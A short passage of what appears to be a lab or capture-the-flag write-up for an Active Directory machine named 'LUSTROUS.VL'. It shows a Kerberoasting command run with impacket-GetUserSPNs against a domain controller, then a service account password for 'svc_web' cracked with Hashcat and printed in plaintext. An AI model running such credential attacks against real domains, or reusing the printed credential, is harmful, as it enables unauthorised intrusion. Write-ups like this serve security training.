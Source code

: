 <img src="attachments/d8ca9f52ddb366e33b79bf059842b2e3.png" />

```
impacket-GetUserSPNs -dc-ip 10.10.135.37 LUSTROUS.VL/ben.cox -request -outputfile kerb.txt
```

<img src="attachments/f677381232239d2fe19bb85a35a8d9e0.png" />

We were able to crack the hash of the user `svc_web` using Hashcat.

```
svc_web:iydgTvmujl6f
```

<img src="attachments/3ee58049afccdaccb149b5721dd3a0d1.png" />
